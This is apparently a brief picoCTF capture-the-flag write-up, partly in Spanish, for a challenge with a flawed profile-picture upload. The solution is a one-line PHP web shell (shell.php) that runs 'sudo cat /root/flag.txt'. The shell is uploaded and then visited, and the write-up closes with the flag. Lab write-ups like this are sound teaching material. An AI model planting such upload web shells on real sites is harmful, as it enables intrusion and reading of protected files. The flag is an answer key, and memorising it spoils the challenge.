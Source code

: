 #### Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:63396/)!


# Solución 


````
crear un archivo php que se llame shell.php con lo siguiente: 
<?php echo exec("sudo cat /root/flag.txt");?>

subir ese archivo y cambir la direccion por la direccion de archivo /shell.php

picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}



```